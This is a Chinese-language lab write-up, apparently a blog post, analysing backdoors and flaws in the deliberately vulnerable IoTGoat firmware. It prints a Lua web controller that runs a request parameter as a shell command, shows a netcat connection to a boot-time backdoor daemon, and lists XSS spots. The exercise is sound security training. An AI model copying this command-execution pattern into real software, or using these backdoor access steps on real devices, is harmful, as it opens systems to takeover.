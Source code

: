> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/HjMqLSaug53YRx8AF9VRcg)

继续接着上一章，本章节主要从不安全的生态系统接口入手。  

**不安全的生态系统接口**

**1.  web 后门**

web 界面 Url 包含可供开发者调试的接口

**查看 web 路由**

**(/usr/lib/lua/luci/controller/iotgoat/iotgoat.lua)**

发现执行命令的接口

```
module("luci.controller.iotgoat.iotgoat", package.seeall)
local http = require("luci.http")
function index()
   entry({"admin", "iotgoat"}, firstchild(), "IoTGoat", 60).dependent=false
   entry({"admin", "iotgoat", "cmdinject"}, template("iotgoat/cmd"), "", 1)
   entry({"admin", "iotgoat", "cam"}, template("iotgoat/camera"), "Camera", 2)
   entry({"admin", "iotgoat", "door"}, template("iotgoat/door"), "Doorlock", 3)
   entry({"admin", "iotgoat", "webcmd"}, call("webcmd"))
end

function webcmd()
   local cmd = http.formvalue("cmd")
   if cmd then
       local fp = io.popen(tostring(cmd).." 2>&1")
       local result =  fp:read("*a")
       fp:close()
       result = result:gsub("<", "<")
       http.write(tostring(result))
   else
       http.write_json(http.formvalue())
   end
end
```

可疑 url 汇总

```
admin/iotgoat/cmdinject
admin/iotgoat/cam
admin/iotgoat/door
admin/iotgoat/webcmd
```

*   admin/iotgoat/cmdinject
    

 **执行 netstat -atnp**

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAeSXEMXicXMKN231bg7P4vJuibiaceHdsZBhRxHgFiaA2VtpibKt6LBF38u3w/640?wx_fmt=png)

*   admin/iotgoat/webcmd
    

 **cmd 传参执行系统命令**

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAeTHGzx3JJYnROE1eApIEwmXzBia5yQakY1cw2fvxOxk9ClZZQibOjn5XA/640?wx_fmt=png)

### **2. 程序后门**  

```
$ netstat -antp #查看可疑进程
$ ps | grep shellback
```

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAeibIzq5FefInOmUfDOPibT8RgC5fmeUnOROMdZY9CHa3zwfj7AE7UTVVw/640?wx_fmt=png)

查看固件开机启动项 (/etc/rc.local)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAe60jiaNMovxviaGIulRAfe2qc1MjzuzegpLoE9Bp9QgafOAV0wfPziau1g/640?wx_fmt=png)

**将程序拖入 IDA 分析**

一键 F5 反汇编

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAeVf89smdk3rPfvOY7UzrnCnC2cp7dIVCPqIKdlu2fibnklH89CDI1B0A/640?wx_fmt=png)

使用 netcat 进行后门连接

```
$ nc -v 192.168.72.132 5515
```

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAeYqGzwsHygPvpNr1cPBkWk7fice8P7FyNQErzOUVXlQkZ1xHIglh9mHQ/640?wx_fmt=png)

### 3. Web 漏洞  

**XSS 漏洞**

**反射型 xss**

配置 Firewall - Traffic Rules

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAeoiaSwT03GDhsN4XvGgv3IG7rhLUXB6NR0KT5qkcehCa1DaC1tptoFew/640?wx_fmt=png)

配置 Firewall - Port Forwards

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAez6YqcQQVgvUcjdmGszae6zXoHicxYiaGz01wlgOEyRTy5cPqIwqjhMicg/640?wx_fmt=png)

**存储型 xss**

配置 SSID 名称

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAeTrYR7eerLXp8oLUocz570H6QmeawdyaoL6gdViaPKbgcmrrIMHERexg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQzWSK1U18EFk6uib4ZklpAetl2VL4NjOLxelFEHg5pl8LJXIfAxIRiaSf8RJsLIs4ocZZLTPCOJKxw/640?wx_fmt=png)

**总结**  

---------

1.  不可直接访问的 “秘密” 开发人员诊断页面，并向用户公开 shell 访问权限。

2.  配置在启动期间运行的持久后门守护进程。

3.  多个跨站点脚本 (XSS) 漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTqMVczDE3GyGU1hPA7RQQlIESOibcZaWMeJVMicz1JUKnoSKhomypNO0J7q4BAxqjgxmpWYYe17ia2A/640?wx_fmt=png)

如果您有意向加入我们，请留言: )，

或邮件投递简历：akast@hillstonenet.com